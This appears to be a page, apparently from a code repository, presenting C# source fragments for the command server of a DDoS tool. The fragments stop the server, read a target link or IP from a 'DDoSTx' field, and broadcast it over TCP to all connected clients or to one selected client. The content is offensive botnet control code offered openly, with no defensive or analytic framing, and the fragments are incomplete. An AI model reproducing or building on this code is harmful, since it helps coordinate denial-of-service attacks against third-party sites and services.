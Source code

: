 ```
                 clientInfo.TcpClient.Close();
             }
         }

         _serverThread?.Join();
         _monitorThread?.Join();
         Dispatcher.Invoke(() => MessageBox.Show("Server stopped successfully."));
     }
     catch (Exception ex)
     {
         Dispatcher.Invoke(() => MessageBox.Show($"Error stopping server: {ex.Message}"));
     }
 }
```
#### The code for sending information to the client:

```
 string link = DDoSTx.Text;

 if (!string.IsNullOrWhiteSpace(link))
 {
     SendMessageToAllClients(link);
 }
 else
 {
     MessageBox.Show("Write Link.");
 }

---

 foreach (var clientInfo in _clients.ToList())
 {
     if (clientInfo.TcpClient != null && clientInfo.TcpClient.Connected)
     {
         try
         {
             NetworkStream stream = clientInfo.TcpClient.GetStream();
             byte[] buffer = Encoding.UTF8.GetBytes(message + "\n");
             stream.Write(buffer, 0, buffer.Length);
             stream.Flush();
```

#### The code that sends the task to one selected client from the IP list:

```
  if (clientsview.SelectedItem is ClientInfo selectedClient)
            {
                string clientIp = selectedClient.IPAddress;

                if (_clientMessages.ContainsKey(clientIp))
                {
                    string link = DDoSTx.Text;

                    if (!string.IsNullOrWhiteSpace(link))
                    {
                        SendLinkToClient(clientIp, link);
                    }
                    else
                    {
                        MessageBox.Show("Write Link/Ip.");
                    }
                }
                else
```